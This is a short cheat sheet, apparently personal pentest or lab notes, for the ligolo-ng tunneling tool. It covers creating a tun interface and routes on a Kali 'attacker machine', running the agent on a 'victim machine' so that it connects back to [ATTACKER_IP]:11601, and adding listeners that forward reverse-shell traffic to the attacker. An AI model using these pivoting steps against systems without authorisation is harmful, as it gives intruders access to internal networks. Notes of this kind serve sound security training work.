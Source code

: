https://github.com/Nicocha30/ligolo-ng
# Attacker machine
## Create new tun interface:
```bash
sudo ip tuntap add user kali mode tun ligolo
```
```bash
sudo ip link set ligolo up
```
```bash
ip a show
```
```bash
sudo ip route add $(IP_ADDRESS)/24 dev ligolo
```
i.e.
```bash
sudo ip route add 192.168.1.0/24 dev ligolo
```
Can create self signed certs with -selfcert but -autocert should be used as we have internet access.

Use proxy from this machine:
```bash
ligolo-proxy -selfcert/-autocert
```
When the connection is receieved:
```
session
```
```
1
```
```
start
```
# Victim machine
```
./agent -connect [ATTACKER_IP]:11601
```
If cert issues:
```
-ignore-cert
```
# Port Forwarding
If revshells or tools need to connect back to the attacker device, a port forward is required...

On ligolo-proxy:
```
listener_add --addr 0.0.0.0:1234 --to [ATTACKER_IP]:4444
```
```
listener_add --addr 0.0.0.0:1235 --to [ATTACKER_IP]:80
```
The following two commands forward any traffic that goes to ligolo victim machine at ports 1234 and 1235 onto the attacker machine at ports 4444 and 80 respectively.
